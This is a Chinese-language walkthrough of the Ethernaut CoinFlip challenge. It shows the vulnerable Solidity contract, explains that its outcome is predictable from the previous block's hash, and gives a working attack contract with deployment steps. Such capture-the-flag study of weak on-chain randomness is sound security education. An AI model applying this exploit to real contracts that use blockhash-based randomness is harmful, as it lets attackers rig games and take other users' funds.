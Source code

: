 3_CoinFlip
=
本关要求
--

  1.This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.  

合约代码
--
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

      using SafeMath for uint256;
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() public {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }  
合约分析
--
本关要求我们预测对10次硬币的正反  

查看<code>flip</code>方法可知，<code>coinFlip</code>的值决定硬币正反，<code>coinFlip</code>的值通过<code>blockValue.div(FACTOR)</code>计算得到  

<code>blockValue</code>的值为进行预测时当前区块的<code>blockhash</code>  

因为<code>FACTOR</code>的值为常量，所以如果能提前预知<code>blockValue</code>的值，就能预测硬币的正反  

因为有<code>if (lastHash == blockValue)</code>的判断，同一个区块的合约只能提交一次。所以我们采用合约调用的方法，先在我们编写的合约内计算硬币的正反，再调用本关合约，提交预测的结果  

攻击
--
编写攻击合约代码  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";


    // 被调用合约接口
    interface CoinFlipInterface {
        function flip(bool _guess) external returns (bool);
    }

    // 攻击合约
    contract CoinFlipAttack{

        using SafeMath for uint256;
        address private addr;
        CoinFlipInterface cf_interface;

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor(address _addr) public {
            addr = _addr;
            //cf_ins = CoinFlip(_addr);
            cf_interface = CoinFlipInterface(_addr);
        }

    // 使用本关合约相同代码计算硬币正反
        function getSide() private view returns  (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

    // 调用接口实例
        function attack() public {
            bool side = getSide();
            cf_interface.flip(side);
        }

    }
部署本关合约，并查看合约地址  

![图片](https://user-images.githubusercontent.com/35074461/196595386-591c69c0-b59c-459e-b930-5688b0808c10.png)  
  
编译攻击合约，设置Remix部署环境为Injected Provider，连接Metamask。设置部署地址为0x1474ADE39c052Ffb14aA38726c63Fd8972FFb044  
  
![图片](https://user-images.githubusercontent.com/35074461/196595791-c42836e4-471b-402c-8b22-9ac9d129a8be.png)  

点击attack进行合约攻击，查看预测结果，发现攻击成功  
  
![图片](https://user-images.githubusercontent.com/35074461/196593086-7c9df5e9-68d1-4506-bbf0-8f0bca4cb16b.png)  
继续提交直至成功10次，完成本关  
  
![图片](https://user-images.githubusercontent.com/35074461/196594859-f4bf89a1-d10e-4ddb-a385-5b65c870b061.png)  


Ps:
--
<code>blockhash(block.number.sub(1)</code>是一种常见的伪随机数生成漏洞，更多关于智能合约随机数漏洞，可查看[《智能合约中的随机数漏洞》](https://github.com/Gednoveh/SmartContractSecurity/blob/main/%E9%9A%8F%E6%9C%BA%E6%95%B0%E9%A2%84%E6%B5%8B)
